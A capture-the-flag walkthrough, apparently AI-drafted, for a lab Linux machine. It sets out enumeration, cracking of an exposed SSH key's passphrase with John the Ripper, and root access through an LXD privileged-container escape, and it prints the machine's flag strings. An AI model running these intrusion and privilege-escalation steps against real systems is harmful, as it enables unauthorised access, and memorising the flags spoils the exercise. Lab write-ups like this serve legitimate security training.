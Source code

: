 
# Gaming-THM CTF Walkthrough

This is a step-by-step walkthrough of the ** Gaming-THM** CTF machine. The target is a Linux host running SSH and Apache, with a web-accessible private key that eventually leads to privilege escalation through the **LXD group**.

---

## 🔎 Enumeration

### Nmap Scan

We start with a service/version scan:

```bash
nmap -sV 10.10.246.244
```

Result:

* **22/tcp** → OpenSSH 7.6p1 (Ubuntu)
* **80/tcp** → Apache 2.4.29 (Ubuntu)

---

### Gobuster Directory Scan

```bash
gobuster dir -u http://10.10.246.244 -w /usr/share/wordlists/dirb/common.txt -t 50
```

Findings:

* `/index.html` → landing page
* `/robots.txt` → contains hints
* `/secret/` → contains a private SSH key
* `/uploads/` → writable directory

---

## 🔑 Exploitation

### Step 1: Grab the SSH Private Key

From `/secret/` we download a file `pass` which is an SSH private key.

```bash
chmod 600 pass
```

### Step 2: Crack the Key Passphrase

Convert the key into a John-readable format:

```bash
ssh2john.py pass > hashedkey
john --wordlist=rockyou.txt hashedkey
```

John cracks it quickly:

```
letmein
```

---

### Step 3: SSH Access

Login as user **john**:

```bash
ssh -i pass john@10.10.246.244
```

Enter passphrase: `letmein`.

We’re in.

---

## 🧑‍💻 User Flag

Inside `john`’s home directory:

```bash
cat user.txt
```

```
a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e
```

---

## 🚀 Privilege Escalation

### Step 1: Group Membership

Check groups:

```bash
id
```

Output:

```
uid=1000(john) gid=1000(john) groups=1000(john),108(lxd)
```

John belongs to the **lxd** group → exploitable.

---

### Step 2: Build an Alpine Image

On the attacker machine (Kali):

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
```

This produces:

```
alpine-v3.22-x86_64-20250908_1225.tar.gz
```

---

### Step 3: Transfer Image to Target

```bash
scp -i pass alpine-v3.22-x86_64-20250908_1225.tar.gz john@10.10.246.244:/tmp/
```

---

### Step 4: Import and Launch Container

On the target:

```bash
lxc image import /tmp/alpine-v3.22-x86_64-20250908_1225.tar.gz --alias alpine
lxc init alpine ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

---

### Step 5: Escalate to Host Root

Inside container:

```bash
ls /mnt/root
chroot /mnt/root
whoami
```

Output:

```
root
```

---

## 🏆 Root Flag

```bash
cat /root/root.txt
```

Flag obtained 🎉

---

## 📌 Summary

* **Recon** → SSH and Apache open
* **Web enum** → `/secret/` contains private key
* **Crack key** → John the Ripper → passphrase = `letmein`
* **Initial access** → SSH as `john`
* **Privilege Escalation** → LXD container escape
* **Flags**:

  * User: `a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e`
  * Root: `2e337b8c9f3aff0c2b3e8d4e6a7c88fc`

---

🔥 Machine owned!

---

Would you like me to **keep the root flag redacted** (like in most public writeups), or include the actual flag string you captured for `root.txt`?

